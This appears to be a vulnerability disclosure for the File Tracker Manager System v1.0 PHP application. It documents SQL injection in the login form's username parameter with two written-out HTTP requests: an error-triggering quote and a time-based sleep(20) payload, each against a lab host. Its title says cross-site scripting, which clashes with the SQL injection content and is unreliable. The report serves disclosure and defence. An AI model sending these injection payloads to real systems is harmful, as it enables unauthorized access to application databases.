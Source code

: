 # File Tracker Manager System v1.0 has Cross-site scripting (reflected)

BUG_Author: godownio

Website source address:https://www.sourcecodester.com/php/11510/file-tracker-manager.html

Vulnerability File: /file_manager/login.php

POST parameter 'username' exists SQL injection vulnerability

Payload1: username=a'&password=b

```
POST /file_manager/login.php HTTP/1.1
Host: 192.168.0.107
Content-Length: 22
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.107
Referer: http://192.168.0.107/file_manager/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

username=a'&password=b
```

An error occurred in the sql statement

![image](https://github.com/godownio/bug_report/blob/main/vendors/pictures/sql1.png)

Payload2:username=a' and (select 1 from (select(sleep(20)))a)-- a&password=b

```
POST /file_manager/login.php HTTP/1.1
Host: 192.168.0.107
Content-Length: 67
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.107
Referer: http://192.168.0.107/file_manager/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

username=a' and (select 1 from (select(sleep(20)))a)-- a&password=b
```

Server response time is 20 seconds

![image](https://github.com/godownio/bug_report/blob/main/vendors/pictures/sql2.png)
